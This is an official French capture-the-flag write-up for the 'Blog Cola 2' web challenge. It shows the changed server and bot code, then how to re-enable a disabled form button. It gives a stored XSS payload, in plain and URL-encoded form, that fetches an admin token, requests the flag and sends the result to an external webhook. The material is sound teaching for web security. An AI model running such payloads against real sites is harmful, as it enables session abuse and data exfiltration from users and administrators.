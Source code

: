 # Blog Cola 2 WU officiel

## Description du challenge et objectif

Ce challenge a pour objectif d’introduire les failles présentes sur les clients web. Pour ce faire, vous avez accès à un site web de Popa Cola : Blog Cola.

C’est par le biais de ce site que l’entreprise concurrente dénigre Freizh Cola. Il faut donc prendre le contrôle du site afin de mettre un terme à cette mauvaise publicité.

Pour cela, il sera nécessaire de devenir administrateur sur le site web, ce qui donnera accès au panneau d’administration (qui affiche le flag).

## Modifications par rapport au challenge précédent

### HttpOnly

Le cookie est maintenant défini en tant que `HttpOnly` :

```py
# dans bot.py

def visit(url, token):

    [...]

    driver.add_cookie({
        "name": "token",
        "value": token,
        "path": "/",
        "httpOnly": True,
        "samesite": "Strict",
        "domain": "127.0.0.1"
    })

    [...]
```

### Désactivation de la création de posts

```html
<!-- Dans templates/create.html -->

[...]

<form action="" method="post">
    <input type="text" name="title" placeholder="Title" required>
    <fieldset id="tinyMCE"></fieldset>
    <button type="submit" disabled="true">Cr&eacute;er</button>
</form>

[...]
```

### Changement de la mécanique de récupération du flag

```py
# dans app.py

@app.route("/admin", methods=["GET", "POST"])
def admin():
    global token

    if request.method == "GET":
        if not request.cookies.get("token") == ADMIN_SESSION_KEY:
            return redirect("/")
        
        token = "".join([ascii_letters[randint(0, len(ascii_letters) - 1)] for _ in range(50)])
        return render_template("admin.html", token=token)

    if request.method == "POST":
        # vérifie que l'utilisateur est admin
        if not request.cookies.get("token") == ADMIN_SESSION_KEY:
            return redirect("/")
        
        # vérifie que le token transmis est le bon -> la requête vient bien de la page admin
        if not request.form.get("flag-token") == token:
            return redirect("/")
        
        return FLAG
```

```html
<!-- Dans templates/admin.html -->

[...]
<div class="flag-container">
    <button onclick="getflag()">R&eacute;cup&eacute;rer le flag</button>
    <h1 hidden="true" id="flag-title">Flag</h1>
    <p id="flag-container"></p>
</div>

<script>
    function getflag() {
        token = "{{token}}"
        flag_container = document.getElementById("flag-container")
        flag_title = document.getElementById("flag-title")

        fetch("/admin", {
            method: "POST",
            body: new URLSearchParams({
                "flag-token": token
            })
        }).then((r) => r.text()).then((q) => {
            flag_container.innerHTML = q
            flag_title.hidden = false
        })
    }
</script>
[...]
```

La nouvelle page admin contient un bouton qui envoie une requête POST pour récupérer le flag. Cette récupération repose à la fois sur le cookie d’authentification admin et sur un nouveau token généré à chaque chargement de la page.

## Exploitation

Pour contourner ces nouvelles protections, il est d’abord nécessaire de pouvoir créer des articles. Ici, c’est assez simple : il suffit de modifier l’attribut HTML du bouton désactivé pour pouvoir l’utiliser de nouveau. Par exemple, en supprimant complètement l’attribut `disabled`.

![désactivation bouton](image-21.png)

Pour la suite de l’exploitation, on peut se référer au premier challenge. Ce qui change ici, c’est le script JavaScript utilisé.

En effet, il faut un script qui :
- récupère le `flag-token` via un accès GET à `/admin` ;
- envoie ce `flag-token` via une requête POST sur `/admin` ;
- redirige le contenu de la réponse vers un webhook.

```js
fetch("/admin").then(
    (r) => r.text()
).then(
    (q) => {
        flag = q.match(/token = "[A-Za-z]*"/g)[0].match(/[A-Za-z]{10,50}/g)[0]; // extrait le flag-token
        fetch("/admin", {
            method: "POST",
            body: new URLSearchParams({ 'flag-token': flag })
        }).then(
            (s) => s.text()
        ).then(
            (x) => fetch("https://hhhhhh.free.beeceptor.com?flag=" + x) // envoie le flag au webhook
        );
    }
)
```

Ce qui donne, après encodage URL, le payload final :

```html
title=bbbbb&tinyMCE=<script>fetch%28%22%2Fadmin%22%29%2Ethen%28%0A%20%20%20%20%28r%29%20%3D%3E%20r%2Etext%28%29%0A%29%2Ethen%28%0A%20%20%20%20%28q%29%20%3D%3E%20%7B%0A%20%20%20%20%20%20%20%20flag%20%3D%20q%2Ematch%28%2Ftoken%20%3D%20%22%5BA%2DZa%2Dz%5D%2A%22%2Fg%29%5B0%5D%2Ematch%28%2F%5BA%2DZa%2Dz%5D%7B10%2C50%7D%2Fg%29%5B0%5D%3B%0A%20%20%20%20%20%20%20%20fetch%28%22%2Fadmin%22%2C%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20method%3A%20%22POST%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20body%3A%20new%20URLSearchParams%28%7B%20%27flag%2Dtoken%27%3A%20flag%20%7D%29%0A%20%20%20%20%20%20%20%20%7D%29%2Ethen%28%0A%20%20%20%20%20%20%20%20%20%20%20%20%28s%29%20%3D%3E%20s%2Etext%28%29%0A%20%20%20%20%20%20%20%20%29%2Ethen%28%0A%20%20%20%20%20%20%20%20%20%20%20%20%28x%29%20%3D%3E%20fetch%28%22https%3A%2F%2Fhhhhhh%2Efree%2Ebeeceptor%2Ecom%3Fflag%3D%22%20%2B%20x%29%3B%0A%20%20%20%20%7D%0A%29</script>
```

Ce payload permet donc de recevoir directement le flag sur votre webhook.

![flag](image-22.png)
